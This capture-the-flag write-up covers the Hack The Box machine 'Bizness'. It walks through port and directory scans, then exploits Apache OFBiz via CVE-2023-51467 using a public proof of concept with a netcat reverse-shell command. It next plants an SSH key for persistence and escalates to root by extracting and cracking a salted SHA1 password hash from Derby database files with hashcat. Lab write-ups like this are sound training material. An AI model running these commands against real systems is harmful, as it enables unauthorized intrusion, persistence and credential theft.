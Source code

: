 # Bizness

![image](https://gist.github.com/assets/56447720/6de2b1ec-9718-415f-8bb4-30cfab5f6a4d)

## Recon

### port scan

```bash

PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
<<--snipped-->>
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOjcxHOO/Vs6yPUw6ibE6gvOuakAnmR7gTk/yE2yJA/3
80/tcp    open  http       syn-ack nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   syn-ack nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-14T20:03:40
| Not valid after:  2328-11-10T20:03:40
| MD5:   b182:2fdb:92b0:2036:6b98:8850:b66e:da27
| SHA-1: 8138:8595:4343:f40f:937b:cc82:23af:9052:3f5d:eb50
| -----BEGIN CERTIFICATE-----
| MIIDbTCCAlWgAwIBAgIUcNuUwJFmLYEqrKfOdzHtcHum2IwwDQYJKoZIhvcNAQEL
<<--snipped-->>
| c1zAVUdnau5FQSAbwjDg0XqRrs1otS0YQhyMw/3D8X+f/vPDN9rFG8l9Q5wZLmCa
| zj1Tly1wsPCYAq9u570e22U=
|_-----END CERTIFICATE-----
| tls-alpn:
|_  http/1.1
|_http-server-header: nginx/1.18.0
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-favicon: Unknown favicon MD5: 7CF35F0B3566DB84C7260F0CC357D0B8
| tls-nextprotoneg:
|_  http/1.1
36197/tcp open  tcpwrapped syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### directory scan

```bash

 ffuf -u https://bizness.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -fs 0
```

* directory scan reveals `/control`
* upon visiting we get a apache ofbiz page, with some error.

## Initial foothold

* After googling, I found that the server is vulnerable to CVE-2023-51467
* read more : https://nvd.nist.gov/vuln/detail/CVE-2023-51467
* github poc : https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

## User shell

* Running the script we get a user shell

```bash

➜  Apache-OFBiz-Authentication-Bypass git:(master) python3 exploit.py --url https://bizness.htb --cmd 'nc <YOUR IP> <PORT> -e /bin/sh'
```

### Stabalizing shell

* I made .ssh keys inside $HOME directory to get a stablize shell

```bash

mkdir ~/.ssh
chmod 700 ~/.ssh

#create public key with : ssh-keygen -t rsa -b 2048
echo '<your public key>' > ~/.ssh/authorized_keys

chmod 600 ~/.ssh/authorized_keys
#done
```

#### now simply ssh

```bash

➜  Apache-OFBiz-Authentication-Bypass git:(master) ssh ofbiz@bizness.htb
The authenticity of host 'bizness.htb (10.129.176.140)' can't be established.
ED25519 key fingerprint is SHA256:Yr2plP6C5tZyGiCNZeUYNDmsDGrfGijissa6WJo0yPY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bizness.htb' (ED25519) to the list of known hosts.
Linux bizness 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

ofbiz@bizness:~$ cat user.txt
b7c9d<--snipped-->b6a1997
ofbiz@bizness:~$


```

## Root shell

* so i tried linpeas.sh, didn't found much info
* found a rabbit hole for python capability
* (asked for nudge)
* they told to see how the app stores password
* Next thing I did was to find db files, found `derby` directory, which is a database used in Apache
* used grep to find password logs
* if you read the program, you'll see it's using sha1 for hashing, searched for "sha"
* program : https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java

```bash

ofbiz@bizness:/opt/ofbiz/runtime/data$ grep -irl "sha"
derby/ofbiz/seg0/c5490.dat
derby/ofbiz/seg0/c54a1.dat
derby/ofbiz/seg0/c5c70.dat
derby/ofbiz/seg0/c54d0.dat
derby/ofbiz/seg0/c23f0.dat
derby/ofbiz/seg0/c10.dat
derby/ofbiz/seg0/c6650.dat
derby/ofbiz/seg0/c1330.dat
derby/ofbiz/seg0/c2590.dat
derby/ofbiz/seg0/c1310.dat
derby/ofbiz/log/log31.dat
derby/ofbizolap/seg0/c10.dat
derby/ofbiztenant/seg0/c10.dat
ofbiz@bizness:/opt/ofbiz/runtime/data$ 

```

* used strings on those .dat files

```bash
ofbiz@bizness:/opt/ofbiz/runtime/data$ strings derby/ofbiz/log/log31.dat | grep -i "sha"
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I!!
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I!!
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I!!
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I

```

#### Hash

`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`

* if you read the prgm, it's mentioned that the hash is url safe base encoded....
* so `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` urlsafe base64 deocde this
* then hex it
* salt is `d` (see the hash)
* cyber chef url : `https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9-_',true,false)To_Hex('None',0)&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ`
* add hash & salt in a file & give it to hashcat
* `hash:salt`

### Hash crack

```bash
└─# hashcat -a 0 -m 120 bizness-hash.htb ../wordlists/rockyou.txt
hashcat (v6.2.6) starting

<<snip>>

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

<<snip>>

Dictionary cache built:
* Filename..: ../wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs

b8fd3f41a541a435857a8f3e751cc3a91c174362:d:<snip>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 120 (sha1($salt.$pass))
Hash.Target......: b8fd3f41a541a435857a8f3e751cc3a91c174362:d
Time.Started.....: Sun Jan  7 14:28:17 2024 (0 secs)
 <<snip>>
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: mosnarak -> meisgay1
Hardware.Mon.#1..: Util: 30%

Started: Sun Jan  7 14:27:59 2024
Stopped: Sun Jan  7 14:28:17 2024

```

### rooted

```bash
ofbiz@bizness:~$ su
Password:
root@bizness:/home/ofbiz# id
uid=0(root) gid=0(root) groups=0(root)
root@bizness:/home/ofbiz#
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning
